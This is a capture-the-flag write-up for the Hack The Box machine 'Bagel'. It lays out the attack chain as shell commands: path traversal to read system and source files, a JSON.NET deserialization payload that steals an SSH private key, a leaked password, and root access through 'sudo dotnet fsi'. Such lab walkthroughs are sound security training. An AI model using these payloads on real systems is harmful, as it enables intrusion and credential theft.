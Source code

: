 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB

---

**Machine Info:**
- **IP**: `10.10.11.201`
- **OS**: Linux 🐧
- **Difficulty**: [Medium](Medium)
- **Exploits Used**:
  - [HTTP](HTTP) File Read via Flask route `?page=`
  - Python `proc` analysis to leak source
  - DLL retrieval from .NET server 🎯
  - JSON.NET deserialization exploit in WebSocket 📡
  - Private SSH Key exfiltration 🗝️
  - Pivot to developer via hardcoded creds
  - [dotnet](https://learn.microsoft.com/en-us/dotnet/core/tools/dotnet) F# execution as root via `sudo`

- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (8000) – Flask
  - [HTTP](HTTP) (5000) – WebSocket + .NET Core

---

[Tools](Tools)
- `nmap` 🔍
- `feroxbuster` 🦡
- `ffuf` 🚀
- `curl` 🌐
- `wscat` 📡
- `jq` 🧪
- `dnSpy` 🔬
- `dotnet`, `fsi`, and `bash` 🧠
- `ssh`, `su` 🧑‍💻

---

### Commands to Solve Box

#### 🔍 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.201
nmap -p 22,5000,8000 -sCV 10.10.11.201
feroxbuster -u http://bagel.htb:8000
```

#### 📂 Initial Access (via Flask)
```bash
curl http://bagel.htb:8000/?page=../../../../etc/passwd
curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
curl http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
```

#### 🧠 DLL Retrieval
```bash
curl http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll -o bagel.dll
```
Open with [dnSpy](https://github.com/dnSpy/dnSpy) or `ilspy`.

#### 📡 WebSocket Deserialization
```bash
wscat -c ws://bagel.htb:5000
# Send malicious JSON:
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
```

Reformat the key:
```bash
echo $KEY | jq -r . > ~/keys/bagel-phil
chmod 600 ~/keys/bagel-phil
ssh -i ~/keys/bagel-phil phil@bagel.htb
```

#### 🔐 Pivot to developer
```bash
su - developer  # password from DLL: k8wdAYYKyhnjg3K
```

#### 👑 Root via dotnet F#
```bash
sudo dotnet fsi
> System.Diagnostics.Process.Start("bash").WaitForExit();;
```

Alt: Make custom C# app
```bash
mkdir /dev/shm/exploit && cd /dev/shm/exploit
dotnet new console
nano Program.cs  # insert reverse shell or bash
sudo dotnet run
```

---

### ✅ Actions Learned From This Box
- 🐍 How Flask apps can be abused through `?page=` file reads
- 🔍 Reconnaissance with `/proc` to locate running source code
- 📦 Decompiling .NET DLLs to discover vulnerabilities
- 🔓 JSON.NET deserialization bugs via TypeNameHandling 🧨
- 🗝️ Pivoting to users via private key exfiltration
- 💻 F# interactive exploitation for privilege escalation
- 🧰 Rebuilding structured payloads using `jq` and terminal tricks
- 🧪 Understanding .NET internals (runtimeconfig, dll paths, etc.)

---

### References 📚
- 📘 [Json.NET Deserialization Exploit Writeup](https://blog.doyensec.com/2020/02/10/json-deserialization-in-dotnet.html)
- 🧪 [wscat](https://github.com/websockets/wscat)
- 🔐 [F# Interactive (fsi)](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/fsi/)
- 💣 [dotnet TypeNameHandling vulnerability](https://www.hanselman.com/blog/remote-code-execution-via-json-deserialization-in-net)
- 📦 [dnSpy GitHub](https://github.com/dnSpy/dnSpy)

---

Let me know when you're ready for another writeup! 🧠🔥🥯